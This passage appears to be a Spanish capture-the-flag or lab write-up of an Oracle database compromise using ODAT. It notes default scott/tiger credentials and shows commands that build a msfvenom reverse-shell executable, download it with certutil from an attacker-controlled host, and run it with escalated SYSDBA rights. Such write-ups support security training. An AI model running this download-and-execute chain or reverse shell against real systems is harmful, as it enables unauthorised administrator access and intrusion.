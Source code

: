 ![Obtención de credenciales](images/exploit_1.png)

Posteriormente se identificó que el módulo encargado de hacer este proceso es `passwordguesser` el cual simplemente sustituiría a `all` del comando.

#### RCE

##### Pasos previos | Preparación

Posteriormente, al revisar los módulos disponibles se identificó que tanto el módulo `dbmsscheduler` como el módulo `externaltable` ofrecen capacidad de ejecutar comandos. Que al intentar usarlos no se permitió su ejecución debido a la falta de privilegios, sin embargo, se encontró que mediante la bandera `--sysdba` existe la posibilidad de "escalar" estos privilegios o impersonar un rol superior al que se tenía.

##### Ejecución

Obteniendo así, una vez ejecutada la reverse shell, acceso directamente como administrador.

1. Creando un payload con:
   
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=1234 -f exe > pwn.exe
   ```

2. Descargándolo con:
   
   ```bash
   ./odat.py dbmsscheduler -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "certutil.exe -f -urlcache -split http://10.10.14.16/pwn.exe c:\windows\temp\pwn.exe" --sysdba
   ```

3. Y ejecutándolo con:
   
   ```bash
   ./odat.py externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --exec "c:\windows\temp" "pwn.exe" --sysdba
   ```
